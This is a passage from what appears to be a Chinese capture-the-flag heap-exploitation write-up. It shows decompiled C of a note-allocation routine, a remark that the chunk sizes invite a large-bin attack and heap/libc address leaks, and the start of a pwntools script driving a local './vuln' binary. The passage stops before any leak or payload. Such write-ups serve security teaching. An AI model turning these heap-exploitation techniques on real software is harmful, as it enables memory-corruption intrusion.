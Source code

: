 ```c
      {
        v0 = v2;
        notes[v0] = malloc((unsigned int)size[0]);
        note_size[v2] = size[0];
      }
      else
      {
        puts("Too small.");
      }
    }
    else
    {
      puts("Too big.");
    }
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return *(_QWORD *)&size[1] - __readfsqword(0x28u);
}
```

这个chunk大小,摆明了是让我们用large_bin_attack了.

那么我们首先泄露一下heap和libc地址:

```python
from pwn import *
#context.log_level='debug'
context.arch='amd64'
def add_c(index,size):
	r.recvuntil(b">")
	r.sendline(b"1")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	r.recvuntil(b"Size: ")
	r.sendline(str(size))	
	return
def show_c(index):
	r.recvuntil(b">")
	r.sendline(b"4")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	return
def del_c(index):
	r.recvuntil(b">")
	r.sendline(b"2")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	return

def edit_c(index,content):
	r.recvuntil(b">")
	r.sendline(b"3")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	r.recvuntil(b"Content: ")
	r.send(content)	
	return

r=process("./vuln")
pause()
add_c(0,0x500)
```